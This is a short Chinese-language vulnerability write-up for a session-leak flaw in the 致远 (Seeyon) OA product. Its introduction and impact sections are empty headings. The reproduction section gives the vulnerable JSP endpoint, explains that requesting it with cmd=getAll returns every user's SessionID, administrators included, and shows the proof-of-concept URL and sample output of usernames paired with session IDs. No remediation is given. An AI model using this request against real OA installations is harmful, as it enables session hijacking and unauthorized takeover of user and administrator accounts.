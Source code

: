 # 致远OA Session泄漏漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

漏洞位置:


```
http://url/yyoa/ext/https/getSessionList.jsp
```

漏洞详情:

*当cmd参数为getAll时，便可获取到所有用户的SessionID利用泄露的SessionID即可登录该用户，包括管理员*

请求方式:

**Get**

POC:


```bash
http://url/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显内容


```bash
weiph 9EA4F8832FA1C9BA99E3D13E2F01CAF7zhaozy F9244E7F1B8C39BB8919FAE8E19ED16A
```